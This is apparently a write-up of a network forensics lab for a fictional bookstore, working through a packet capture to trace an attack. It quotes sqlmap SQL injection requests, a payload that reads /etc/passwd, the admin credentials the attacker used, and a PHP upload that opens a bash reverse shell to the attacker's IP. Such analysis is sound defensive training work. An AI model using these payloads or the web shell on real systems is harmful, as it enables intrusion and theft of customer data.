

# Summary

You are a cybersecurity analyst working in the Security Operations Center (SOC) of BookWorld, an expansive online bookstore renowned for its vast selection of literature. BookWorld prides itself on providing a seamless and secure shopping experience for book enthusiasts around the globe. Recently, you've been tasked with reinforcing the company's cybersecurity posture, monitoring network traffic, and ensuring that the digital environment remains safe from threats.

Late one evening, an automated alert is triggered by an unusual spike in database queries and server resource usage, indicating potential malicious activity. This anomaly raises concerns about the integrity of BookWorld's customer data and internal systems, prompting an immediate and thorough investigation.

As the lead analyst on this case, you are required to analyze the network traffic to uncover the nature of the suspicious activity. Your objectives include identifying the attack vector, assessing the scope of any potential data breach, and determining if the attacker gained further access to BookWorld's internal systems.

## Q1 - By knowing the attacker's IP, we can analyze all logs and actions related to that IP and determine the extent of the attack, the duration of the attack, and the techniques used. Can you provide the attacker's IP?

As I was going through the PCAP file, I saw a lot of communication between our Web server and a certain attacker attempting SQLi on our web server such as this one (packet 426):

```
search=book&ZscLv96 AND 1=1 UNION ALL SELECT 1,NULL,'<script>alert("XSS")</script>',table_name FROM information_schema.tables WHERE 2>1--/**/; EXEC xp_cmdshell('cat ../../../etc/passwd')#
```

The IP of this attacker is the one below :

- 111.224.250.131

## Q2 - If the geographical origin of an IP address is known to be from a region that has no business or expected traffic with our network, this can be an indicator of a targeted attack. Can you determine the origin city of the attacker?

Giving this IP address to [ipinfo.io](https://ipinfo.io/). We found the following information :


So it's pretty straight forward that the answer we are looking for is **Shijiazhuang**

## Q3 - Identifying the exploited script allows security teams to understand exactly which vulnerability was used in the attack. This knowledge is critical for finding the appropriate patch or workaround to close the security gap and prevent future exploitation. Can you provide the vulnerable script name?

Looking through the attacks, it seems that the `search.php` is vulnerable to multiple vulnerabilities such as SQLi and XSS.

## Q4 - Establishing the timeline of an attack, starting from the initial exploitation attempt, What's the complete request URI of the first SQLi attempt by the attacker?

The first SQLi attempted by the attacker is the one below. You can filter by time to match the attack timeline :

```
/search.php?search=book%20and%201=1;%20--%20-
```

## Q5 - Can you provide the complete request URI that was used to read the web server available databases?

After analysis the following query (packet 1520) is the way that the attacker (actually `sqlmap` did) used to list the databases.

```
/search.php?search=book%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x7178766271%2CJSON_ARRAYAGG%28CONCAT_WS%280x7a76676a636b%2Cschema_name%29%29%2C0x7176706a71%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA--%20-
```

## Q6 - Assessing the impact of the breach and data access is crucial, including the potential harm to the organization's reputation. What's the table name containing the website users data?

Continuing the analysis we can find another SQLi listing table information (packet 1548) :

```
GET /search.php?search=book%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x7178766271%2CJSON_ARRAYAGG%28CONCAT_WS%280x7a76676a636b%2Ctable_name%29%29%2C0x7176706a71%29%20FROM%20INFORMATION_SCHEMA.TABLES%20WHERE%20table_schema%20IN%20%280x626f6f6b776f726c645f6462%29--%20- HTTP/1.1
Cache-Control: no-cache
User-Agent: sqlmap/1.8.3#stable (https://sqlmap.org)
Host: bookworldstore.com
Accept: */*
Accept-Encoding: gzip,deflate
Connection: close

HTTP/1.1 200 OK
Date: Fri, 15 Mar 2024 12:08:56 GMT
Server: Apache/2.4.52 (Ubuntu)
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 166
Connection: close
Content-Type: text/html; charset=UTF-8

<p>qxvbq["admin", "books", "customers"]qvpjq</p><form action="search.php" method="get">
    <input type="text" name="search" placeholder="Search for books...">
    <input type="submit" value="Search">
</form>
```

The table containing user data is named `customers`. Here is a sample of extracted data :

```

<p>qxvbq["123 Maple Streetzvgjckjohn.doe1234@gmail.comzvgjckJohnzvgjck5zvgjckDoezvgjck555-1234", "456 Oak Avenuezvgjckjane.smith5678@gmail.comzvgjckJanezvgjck6zvgjckSmithzvgjck555-5678", "789 Pine Roadzvgjckemily.johnson91011@gmail.comzvgjckEmilyzvgjck7zvgjckJohnsonzvgjck555-9012", "321 Birch Boulevardzvgjckmichael.brown1213@gmail.comzvgjckMichaelzvgjck8zvgjckBrownzvgjck555-3456", "654 Willow Wayzvgjcksarah.davis1415@gmail.comzvgjckSarahzvgjck9zvgjckDaviszvgjck555-6789", "987 Cedar St.zvgjckwilliam.wilson1617@gmail.comzvgjckWilliamzvgjck10zvgjckWilsonzvgjck555-1011", "345 Spruce Ave.zvgjckjessica.moore1819@gmail.comzvgjckJessicazvgjck11zvgjckMoorezvgjck555-1213", "678 Pine St.zvgjckdavid.taylor2021@gmail.comzvgjckDavidzvgjck12zvgjckTaylorzvgjck555-1415", "901 Maple Dr.zvgjcklinda.anderson2223@gmail.comzvgjckLindazvgjck13zvgjckAndersonzvgjck555-1617", "123 Oak Lanezvgjckjames.thomas2425@gmail.comzvgjckJameszvgjck14zvgjckThomaszvgjck555-1819"]qvpjq</p><form action="search.php" method="get">
    <input type="text" name="search" placeholder="Search for books...">
    <input type="submit" value="Search">
</form>
```

## Q7 - The website directories hidden from the public could serve as an unauthorized access point or contain sensitive functionalities not intended for public access. Can you provide name of the directory discovered by the attacker?

Looking through the packets and filtering with the status code 200 (HTTP OK Reply). I found the `admin` directory (Packet 88699).

## Q8 - Knowing which credentials were used allows us to determine the extent of account compromise. What's the credentials used by the attacker for logging in?

Following the previous packet we can observe some credentials and a HTTP code [302](https://stackoverflow.com/questions/2839585/what-is-correct-http-status-code-when-redirecting-to-a-login-page)

```
username=admin&password=admin123%21
HTTP/1.1 302 Found
```

We need to decode the password and we can found that the creds are the following `admin:admin123!`

## Q9 - We need to determine if the attacker gained further access or control on our web server. What's the name of the malicious script uploaded by the attacker?

With further analysis, we can notice a post request (Packet 88757) that the attacker has made to load his script on the system.

```
-----------------------------356779360015075940041229236053
Content-Disposition: form-data; name="fileToUpload"; filename="NVri2vhp.php"
Content-Type: application/x-php

<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"111.224.250.131"/443 0>&1'");?>

-----------------------------356779360015075940041229236053
Content-Disposition: form-data; name="submit"

Upload File
-----------------------------356779360015075940041229236053--
```

It's a simple reverse shell to the attacker IP address.

## Conclusion

This challenge was quite easy (approx 1H for the challenge and writeup) but I give myself the challenge to do a writeup for every exercice so here I am :).